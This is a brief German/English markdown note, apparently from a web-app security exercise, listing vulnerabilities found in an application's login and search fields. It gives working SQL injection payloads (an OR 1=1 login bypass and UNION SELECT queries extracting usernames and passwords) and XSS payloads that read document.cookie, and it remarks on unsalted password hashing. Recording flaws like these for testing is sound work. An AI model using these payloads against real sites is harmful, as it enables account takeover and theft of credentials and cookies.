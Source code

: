 # SQL Injections
Kann momentan beispielsweise durchgeführt werden, folgendes 
__" OR 1 = 1 #__ in das login-Username feld eingetragen wird wird. Hierdurch bekommt man alle User Zurück geliefert 
anstatt nur einen mit einer spezifischen ID.
Union Attack __%' UNION SELECT passw FROM Users #__ in Suchfeld
Query kann herausgefunden werden, indem man __%'__ in das suchfeld postet oder __"__ in das login-feld
__%' ORDER BY 4--__ to find out how many columns are in the table since this is important for the attack
__%' UNION SELECT NULL, NULL, username, passw, NULL FROM Users --__ to return userdata

# Cross-Site Scripting
- Reflected XSS
Insert <script>alert();</script>
https://www.imperva.com/learn/application-security/reflected-xss-attacks/#:~:text=Reflected%20XSS%20attacks%2C%20also%20known,enables%20execution%20of%20malicious%20scripts.
https://www.youtube.com/watch?v=T0vxdqvW9fU&list=LL&index=3
<script>alert(document.cookie); </script>
<img src="http://url.to.file.which/not.exist" onerror=alert(document.cookie);>
<IMG SRC=j&#X41vascript:alert('test2')>

# Brute-force attack

# Broken Encryption
Möglich wegen veraltetem Hashalgorythmus (SHA256) und weil kein Salt verwendet wird sind alle hashes deterministisch 

# HTML Injections